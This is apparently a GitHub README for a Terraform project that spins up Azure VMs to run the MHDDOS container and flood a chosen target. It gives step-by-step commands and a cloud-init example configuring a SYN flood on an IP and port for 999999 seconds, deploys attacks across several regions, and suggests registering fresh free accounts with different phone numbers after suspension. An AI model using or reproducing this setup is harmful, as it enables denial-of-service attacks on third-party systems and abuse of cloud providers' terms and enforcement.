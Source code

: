 # Overview
Here I use Terraform to automate Azure VM deployment which run MHDDOS docker container.
You can deploy VMs to any Azure region, I prefer those that are located in Asia.   
- Default region - `koreacentral` (Central Korea)
- Default VM count - `4` (In free Azure subscription it's allowed only 4 vCPUs in a single region)
- Default VM SKU - `Standard_F1s` (1 vCPU, 2 GiB RAM, accelerated networking - ON, price around 0.05 USD/hour)
- Default resource group - `mhddosGroup`  

To change default values you can amend the`variables.tf` file, to customize through terminal:
```shell
terraform apply ... -var="<variableName>=<variableValue>"
```

# Prerequisites

You must have a Microsoft Azure account, it's better off using a free subscription (200 USD for 30 days).
Also, installed azure CLI and terraform tools are required. To install these tools check out the following guides:
- Azure CLI https://docs.microsoft.com/en-us/cli/azure/install-azure-cli
- Terraform https://learn.hashicorp.com/tutorials/terraform/install-cli

In general, `udp/tcp/dns` mhddos attacks
are network intensive so your free subscription will be suspended after around 24 hours of active attacks. SYN mhddos attack doesn't require many network resources thus you can use your subscription
longer.  
After your subscription is over you can register a new Microsoft account and apply for a new free Azure
subscription. The main rule here is to specify different phone number. If you have any other ideas
or real experience on creating multiple Microsoft Azure free accounts - feel free to describe this here using a pull request.

# Getting started
1. Clone this repository:

```shell
git clone https://github.com/djebos/mhddos-azure-terraform.git
```

    
OR

Download zip archive of the repository and unzip it on your 
local machine into default directory `mhddos-azure-terraform`

2. Go into the downloaded repository directory

```shell
cd mhddos-azure-terraform/
```

3. Log in Azure in the repository folder
```shell
az login
```
4. Initialize terraform
```shell
terraform init
```
5. Select target and type of attack by changing in `cloud-init.yaml` the `runcmd` attribute.  
`docker run --name mhddos --rm -d djebos/mhddos:latest` command is static and mustn't be changed. All your 
customizations must follow this command as in example below:

```yaml
# TCP syn flood attack on ip 15.61.23.9, port 53, 100 threads, duration 999999 seconds
runcmd:
  - docker run --name mhddos --rm -d djebos/mhddos:latest syn 15.61.23.9:53 100 999999
# here 'syn 15.61.23.9:53 100 999999' is your attack configuration that fully compliant with original MHDDOS
```
More about types of supported attacks on [MHDDOS oficial page](https://github.com/MHProDev/MHDDoS)

6. Deploy to the specified azure region (you must be logged in through `az login`). Examples:  
```shell
terraform apply -state india.tfstate -var="location=southindia" -var="resource_group_name=mhddosIndia" -auto-approve
terraform apply -state korea.tfstate -var="location=koreacentral" -var="resource_group_name=mhddosKorea" -auto-approve
terraform apply -state japan.tfstate -var="location=japaneast" -var="resource_group_name=mhddosJapan" -auto-approve
```
7. Verify after a couple of minutes on azure portal the load of VMs' CPUs. It must be around 100%
8. Stop attack and destroy VMs. Examples:
```shell
terraform destroy -state india.tfstate -auto-approve
terraform destroy -state korea.tfstate -auto-approve
terraform destroy -state japan.tfstate -auto-approve
```
# Troubleshooting
Your attack could fail due to numerous reasons: wrong configuration, ip isn't reachable etc. Therefore, you 
have to connect to your VMs and figure things out. 
1. Find out the target VM's public ip through Azure Portal or using terminal
```shell
terraform output -state <your_state_file>.tfstate instancePublicIPs
```
2. Export a private key to the file:
```shell
terraform output -raw -state <your_state_file>.tfstate tls_private_key > key.pem
```
3. Add a read access to the key file:
```shell
chmod 400 key.pem
```
4. Connect via SSH:
```shell
ssh -i key.pem azureuser@<your_vm_IP>
```
5. Check a status of the `mhddos` docker container:
```shell
sudo docker ps
```